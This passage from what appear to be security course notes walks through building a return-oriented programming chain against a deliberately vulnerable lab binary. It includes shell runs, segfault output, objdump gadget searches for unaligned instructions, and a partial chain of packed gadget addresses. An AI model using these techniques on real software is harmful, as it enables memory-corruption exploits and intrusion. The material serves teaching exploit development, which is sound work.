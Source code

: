 ``` example
user@si485H-base:demo$ ./vulnerable `python rop_chain.py`
Buf: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAz`??
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[1551626.753436] vulnerable[10562]: segfault at bf00e080 ip bf00e080 sp bffff618 error 14
```

Hmm. It did not work, why? Well look closely a the `ip` we segfaulted on
0xbf00e080. There is a null byte in there, and also that looks a lot
like the address for our `pop eax; pop ebx; pop esi; pop edi; ret;` at
0x0809e080. The 0x098 did not write onto the stack, and the reason for
that is 0x09 is '\\t' (tab) and that terminated the `strcpy()`.

It turns out that not all of our gadgets can be used
because the address may contain values we can't include in the overflow.
It looks like we need to hunt for more gadgets!

## Gadgets within Other Operations

One thing we can leverage here is that x86 is not a fixed size
instruction set. Instead, any sequence of bytes could be a valid
instruction. Before, the address of `pop eax` gadget was at an address
that was not useful, but we can look for another one that might be
embedded elsewhere.

To start, it is worthwhile to know that byte 0xc3 is the return
operation and address 0x58 is the `pop eax` instruction. In that case,
we can do a search for that address and find:

``` example
user@si485H-base:demo$ objdump -d -M intel vulnerable  |  grep -B 2 "c3" | grep -A 2 58
(...)
80bb744:    8b 40 58                mov    eax,DWORD PTR [eax+0x58]
80bb747:    c3                      ret    
(...)
```

Within that mov instruction, we see that there is a 0x58
followed by a 0xc3. That means we can use address 0x080bb746 in our ROP
chain. Now we can use the following rop chain:

``` example
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea060) #address to write to
p += pack('<I', 0x080bb746) #pop eax; ret
p += pack('<I', 0x41414141) #'AAAA'
p += pack('<I', 0x0809a70d) # mov [edx],eax;ret
p += pack('<I', 0x08054202) # xor eax,eax
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea061) #address to write to
p += pack('<I', 0x0809a70d) # mov [edx],eax;ret
p += pack('<I', 0xcafebabe) #  will segfault here
```
